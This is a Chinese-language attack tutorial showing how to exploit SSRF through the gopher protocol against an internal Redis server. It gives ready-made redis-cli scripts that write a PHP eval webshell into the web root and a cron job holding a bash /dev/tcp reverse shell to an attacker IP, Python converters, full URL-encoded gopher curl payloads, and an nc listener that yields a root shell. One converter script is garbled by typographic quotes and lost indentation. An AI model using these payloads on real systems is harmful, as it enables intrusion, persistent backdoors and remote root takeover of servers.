




#### gopher 攻击内网redis

> 未授权访问redis条件存在限制，若开启了protected-mode，外网访问是不具有写入权限的；若绑定了127.0.0.1，那么外网将无法访问；但如果存在SSRF漏洞，那么通过Gopher协议可对本地redis进行攻击
> 
> Gopher协议是HTTP协议出现之前，在Internet上常常和常用的一个协议。当然现在Gopher协议已经慢慢淡出历史.Gopher
> 协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议可以攻击内网的FTP，Telnet，Redis，Memcache，也可以进行GET，POST请求。这无疑极大拓宽了SSRF的攻击面。
> 
> payload：gopher://www.0-sec.org:port/_payload

##### 写入webshell

将一下命令打包成gopher.sh文件

```
redis-cli -h $1 -p $2 set 1 '<?php eval($_POST["pass"]);?>'
redis-cli -h $1 -p $2 config set dir /var/www/html
redis-cli -h $1 -p $2 config set dbfilename bbb.php
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

使用socat进行端口转发

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行`./gopher.sh 127.0.0.1 4444`，抓取到数据并写入`1.txt`：



**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
f = open('1.txt', 'r')
s = ''
for line in f.readlines():
        line = line.replace(r"\r", "%0d%0a")
        line = line.replace("\n", '')
        s = s + line
print s.replace("$", "%24") 
```

此处需要注意，使用python脚本将流量内容转换后，还需要将一句话中的`$、?、;、[、]`这几个字符url编码，否则会提示`curl: (3) [globbing] illegal character in range specification at pos 103`

如果写入免杀的一句话，一步步fuzz即可。

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2429%0d%0a%3c%3fphp eval(%24_POST%5b"pass"%5d)%3b%3f%3e%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2413%0d%0a/var/www/html%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%247%0d%0abbb.php%0d%0a*1%0d%0a%244%0d%0asave%0d%0a*1%0d%0a%244%0d%0aquit%0d%0a' 
```



成功在`/var/www/html/`下生成`bbb.php`

#### 反弹shell

> 文件名必须为root，此处靶机环境为centos7，其他Linux需要修改目录
> 
> 首先要明确第一点，用写入crontab的方式要求redis必须是root用户启动，否则无法正常执行

将下列内容写入gopher.sh中：

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.64.142 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

**本地监听**：

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

执行`gopher.sh`并捕捉到流量，将其写入至`1.txt`：



**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
#coding: utf-8
import sys

exp = ‘’ `with open(sys.argv[1]) as f:

for line in f.readlines():

if line[0] in ‘><+’:

continue

elif line[-3:-1] == r’\r’:

if len(line) == 3:

exp = exp + ‘%0a%0d%0a’

else:

line = line.replace(r’\r’, ‘%0d%0a’)

line = line.replace(’\n’, ‘’)

exp = exp + line

elif line == ‘\x0a’:

exp = exp + ‘%0a’

else:

line = line.replace(’\n’, ‘’)

exp = exp + line

print exp` 
```

转换结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a 
```

P.S. 需要注意的是，如果要换IP和端口，前面的$63也需要更改，$63表示字符串长度为63个字节

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a'
* About to connect() to 127.0.0.1 port 6379 (#0)
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
+OK
+OK
+OK 
```

在攻击机中`nc -lvp 2333`获得root权限shell

